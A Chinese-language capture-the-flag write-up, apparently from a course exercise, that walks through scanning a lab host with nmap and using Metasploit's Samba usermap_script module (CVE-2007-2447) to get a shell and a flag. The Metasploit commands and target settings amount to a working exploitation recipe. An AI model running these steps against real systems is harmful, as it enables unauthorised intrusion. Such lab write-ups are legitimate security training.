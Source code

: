 # metasploit

## [40] lost food
### **topic**

駭客貓貓在攻擊目標 (172.63.0.21) 中途把食物弄丟了！

回來的駭客貓貓又餓又累，看起來是不能親自取回食物了，請進入駭客貓貓的家，入侵目標，幫駭客貓貓找回他的食物！

> s...am...b...a...
> 
> 2...0...07...24...4...7...
> 
> by 駭客貓貓

註記：

請利用ssh連線至主機後在主機上操作。

ssh帳號與密碼都是學號，可登入後自行修改

ssh mid.macacahub.tw -p 22000 -l "帳號"


### **hint**

> CVE

### **solution**
駭客貓貓留下兩句話，一句話透漏主機有 samba 的弱點，而另一句話則是暗示 CVE-2007-2447。

連入主機後先用 nmap 掃描靶機確認漏洞。

> ![](../img/metasploit_port_scan.png)

開的 port 不多，samba 預設使用 445 port，不須額外尋找其他 port。

使用 msfconsole 進入 metasploit 後搜尋 samba 的模組。
```shell=
msf> search samba
```
> ![](../img/metasploit_search.png)

根據題意，搜尋 [20072447](https://bfy.tw/S2vX) 後應可查到唯一的 Samba Usermap Script 漏洞，請使用對應的 module。

```shell=
msf> use exploit/multi/samba/usermap_script
msf> show options
```
> ![](../img/metasploit_options.png)

照選項填完 RHOST 以及 RPORT 即可，因不是考點，該題不需修改其他東西。

取得 shell 後應可看到 hacker_meow 留下的flag
